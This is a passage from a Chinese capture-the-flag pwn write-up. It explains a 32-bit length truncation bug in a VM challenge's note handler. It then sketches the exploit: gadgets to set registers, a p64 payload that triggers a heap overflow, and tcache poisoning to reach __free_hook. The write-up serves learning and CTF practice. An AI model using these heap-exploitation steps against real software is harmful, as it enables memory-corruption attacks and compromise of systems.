 这里其实还挺明显的，第一天就是硬是没有看出来。这里nbytes是size_t的类型是64bit，而len是int类型的有32位。len会截断传入的长度数据。这里看汇编可能会比ida的反编译来的明显。因此适当的构造长度数据就会造成堆溢出(`1&lt;&lt;32+0x30`)。

```
case 6uLL:                              // 漏洞这里len会截断32位
          buf = reg1;
          nbytes = *&amp;len;
          if ( *&amp;len &gt; 0LL )
          `{`
            if ( find_and_check(reg1, len) )
            `{`
              cn = read(0, buf, nbytes);
              if ( cn &gt; 0 &amp;&amp; buf[cn - 1] == '\n' )
                buf[cn - 1] = 0;
            `}`
          `}`
          break;
/*
mov     [rbp+nbytes], rax
cmp     [rbp+nbytes], 0
jle     loc_2288
mov     rax, [rbp+nbytes]
mov     edx, eax
mov     rax, [rbp+buf]
mov     esi, edx
mov     rdi, rax
call    find_and_check
*/
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

首先劫持vm程序的控制流，通过构造note(6)的输入数据，造成堆溢出。观察note(6)发现需要传入reg0和reg1。前者表示输入的地址，后者表示输入的长度。

```
note(6)
0xa4    mov    reg2,reg1
0xa7    mov    reg1,reg0
0xaa    mov    reg0,#0x6
0xb4    note
0xb5    ret
```

为了控制reg0和reg1需要寻找gadget。由于可以控制栈所以一下简单的gadget能够控制输入参数。然后布置栈内容`pay = p64(0x6ca)+p64(heap)+p64((1 &lt;&lt; 32)+0x10)+p64(0xa4)+p64(0x14a)`，最后返回主逻辑。

```
0x6ca    pop    reg0
0x6cc    pop    reg1
0x6ce    ret
```

利用溢出劫持tacahe，从而将fd改为`__free_hook`，申请到`__free_hook`的堆块。
